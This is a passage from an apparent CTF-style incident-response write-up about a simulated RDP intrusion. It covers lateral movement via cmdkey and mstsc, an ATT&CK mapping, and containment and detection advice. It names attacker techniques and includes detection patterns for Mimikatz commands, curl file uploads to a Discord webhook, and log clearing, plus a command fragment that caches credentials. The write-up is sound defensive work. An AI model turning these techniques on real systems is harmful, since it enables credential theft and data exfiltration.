`wupdate.ps1` appears to be the **master automation script**, coordinating downloads, exclusions, staging and execution.

**MITRE**  
`T1059.001 – Command and Scripting Interpreter: PowerShell`

---

### Flag 19 – LATERAL MOVEMENT – Secondary Target

**Objective**  
Identify the host targeted for lateral movement.

**Finding**  
Target host: `10.1.0.188`.

**Evidence**



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where ProcessCommandLine contains "cmdkey" or ProcessCommandLine contains "mstsc"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

Shows `cmdkey.exe /generic:10.1.0.188 /user:fileadmin ...`.

**Why it matters**  
`10.1.0.188` becomes a **priority host for investigation and potential containment**.

**MITRE**  
`T1021.001 – Remote Services: RDP`

---

### Flag 20 – LATERAL MOVEMENT – Remote Access Tool

**Objective**  
Identify the remote access tool used for lateral movement.

**Finding**  
Tool: `mstsc.exe` (Remote Desktop client).

**Evidence**  


**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where ProcessCommandLine contains "cmdkey" or ProcessCommandLine contains "mstsc"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

**Why it matters**  
Using the native RDP client with cached credentials from `cmdkey.exe` disguises lateral movement as legitimate administration.

**MITRE**  
`T1021.001 – Remote Services: RDP`

---

## 5. MITRE ATT&CK Mapping – Summary

**Initial Access**  
- `T1133 – External Remote Services (RDP)`

**Execution**  
- `T1059.001 – PowerShell (wupdate.ps1)`  
- `T1059.003 – Windows Command Shell`

**Persistence**  
- `T1053.005 – Scheduled Task (Windows Update Check)`  
- `T1136.001 – Local Account (support)`

**Privilege Escalation**  
- `T1078.003 – Valid Accounts: Local Admin (support)`

**Defense Evasion**  
- `T1562.001 – Impair Defenses (Defender exclusions)`  
- `T1070.001 – Clear Windows Event Logs`  
- `T1036 – Masquerading (svchost.exe in WindowsCache)`

**Credential Access**  
- `T1003.001 – OS Credential Dumping (LSASS via Mimikatz/mm.exe)`

**Discovery**  
- `T1016 – System Network Configuration Discovery`  
- `T1049 – System Network Connections Discovery`

**Lateral Movement**  
- `T1021.001 – Remote Services: RDP (cmdkey + mstsc → 10.1.0.188)`

**Collection / Staging**  
- `T1074.001 – Local Data Staging (WindowsCache)`  
- `T1560.001 – Archive Collected Data (export-data.zip)`

**Command & Control**  
- `T1071.001 – Web Protocols (svchost.exe → 78.141.196.6:443)`

**Exfiltration**  
- `T1567.002 – Exfiltration to Cloud Storage / Web Service (Discord webhook)`

---

## 6. Recommended Actions

### 6.1 Containment (Short-Term)

- Isolate **azuki-sl** and **10.1.0.188** from the network.  
- Rotate credentials for:
  - `kenji.sato`  
  - `fileadmin`  
  - Local `support` account and any other local admins.  
- Block malicious IPs/domains:
  - `88.97.178.12` (RDP source)  
  - `78.141.196.6` (C2)  
  - Discord webhook URLs used for exfiltration.  
- Terminate active RDP sessions.

### 6.2 Eradication

- Remove artifacts:
  - `C:\ProgramData\WindowsCache\` (entire directory)  
  - `mm.exe`, non-standard `svchost.exe`  
  - `wupdate.ps1` and related `.bat` files.  
- Delete scheduled task **"Windows Update Check"**.  
- Remove local account `support` and review other local accounts.  
- Revert Defender settings:
  - Remove all exclusions in **Extensions** and **Paths**.  
- If possible, recover logs from backups due to `wevtutil cl`.

### 6.3 Recovery

- Reimage/rebuild **azuki-sl** and any other affected hosts.  
- Harden RDP access:
  - Disable public RDP where not strictly required.  
  - Enforce MFA for RDP/VPN.  
- Review backups and assess impact of data exfiltration on confidentiality.

---

## 7. Detection and Hardening Recommendations

- Create SIEM/Defender rules for:
  - `certutil.exe` with URLs.  
  - `wevtutil.exe cl` on any log.  
  - `schtasks.exe /create` with non-standard paths.  
  - `ProcessCommandLine` containing `sekurlsa::` or `privilege::debug`.  
  - `curl.exe` uploading files (`-F file=@`).  
  - `cmdkey.exe` + `mstsc.exe` patterns.  
  - Registry changes under `Windows Defender\Exclusions`.  
- Implement **AppLocker/WDAC** to restrict use of tools like `certutil`, `curl`, `powershell` on non-admin endpoints.  
- Monitor traffic to messaging/cloud services (Discord, Telegram, etc.) from internal endpoints.  
- Apply internal firewall rules and segmentation to reduce RDP-based lateral movement, using hardened jump hosts where needed.

---

## 8. Lessons Learned

- JADE SPIDER shows **good understanding of Windows internals**, LOLBAS, and Defender configuration, using exclusions and log clearing to delay detection.  
- Lack of **MFA on RDP** allowed stolen credentials to be sufficient for compromise.  
- The combination of **local admin backdoor account**, **scheduled tasks**, and **hidden directories** indicates clear intent for **long-term persistent access**.  
- Strengthening logging, detection content, and access controls (especially around RDP and privileged accounts) is critical to reduce dwell time in future incidents.
